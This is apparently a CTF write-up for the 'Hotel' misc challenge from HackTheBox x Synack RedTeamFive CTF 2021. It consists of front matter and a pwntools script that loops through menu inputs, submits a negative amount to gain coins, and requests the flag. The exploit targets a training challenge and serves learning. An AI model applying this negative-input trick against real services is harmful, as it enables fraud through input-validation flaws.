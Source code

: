 ```yaml
---
name: Hotel (2021)
event: HackTheBox x Synack RedTeamFive CTF 2021
category: Misc
description: Writeup for Hotel (misc) - HackTheBox x Synack RedTeamFive CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Hotel

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

io = remote('ip', 31337)

# Loop through 40 times (backwards)
# This will allow us to deal with XOR in final stage
for i in range(40, 0, -1):
    io.sendline('1')
    io.sendlineafter(':', str(i))

# Get coins
io.sendline('2')
# Negative value to add 100 coins
io.sendlineafter('?', '-100')
# Try and get flag
io.sendline('3')

# Win?
io.interactive()
```
{% endcode %}

